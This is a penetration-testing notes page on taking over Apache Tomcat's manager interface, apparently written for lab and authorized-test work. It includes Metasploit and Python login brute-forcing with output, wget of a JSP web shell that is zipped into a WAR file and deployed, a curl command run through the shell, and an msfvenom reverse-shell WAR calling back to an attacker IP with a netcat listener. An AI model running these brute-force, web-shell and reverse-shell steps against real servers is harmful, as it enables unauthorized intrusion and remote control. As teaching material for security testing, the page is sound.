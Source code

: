 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Tomcat Exploitation

If we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server. We can use the [auxiliary/scanner/http/tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module for these purposes, Burp Suite Intruder or any number of scripts to achieve this.

## Login Brute Force

### Metasploit - tomcat\_mgr\_login

We must specify the vhost and the target's IP address to interact with the target properly. We should also set `STOP_ON_SUCCESS` to `true` so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

<snip>
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Python Script: Tomcat-Manager-Bruteforce

{% hint style="info" %}
## Script Download:

[https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
{% endhint %}

```bash
python3 mgr_brute.py -U http://tomcat.acme.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

```
[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

## WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.

A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage. The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility.

A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

{% code title="Download Web Shell" %}
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
{% endcode %}

{% code title="Archive" %}
```bash
zip -r backup.war cmd.jsp 
```
{% endcode %}

Click on `Browse` to select the .war file and then click on `Deploy`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we click on `backup`, we will get redirected to `http://web01.acme.com:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.acme.com:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server.

From here, we could upgrade our web shell to an interactive reverse shell and continue.

```bash
curl http://web01.acme.com:8180/backup/cmd.jsp?cmd=id
```

{% hint style="info" %}
## Clean Up & Note Taking

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`.

If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.
{% endhint %}

## Creating WAR Files

### MSFVenom

We could also use [msfvenom.md](../../../../toolbox/tooling/exploitation-tools/metasploit/msfvenom.md "mention") to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

Start a Netcat listener and click on `/backup` to execute the shell.

```bash
nc -lnvp 4443
```

{% hint style="success" %}
## Utilising Metasploit

The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module can be used to automate this process.
{% endhint %}

{% hint style="danger" %}
## Web Shell Warning

When we upload web shells (especially on externals), we want to prevent unauthorised access. We should take certain measures such as a randomised file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.
{% endhint %}
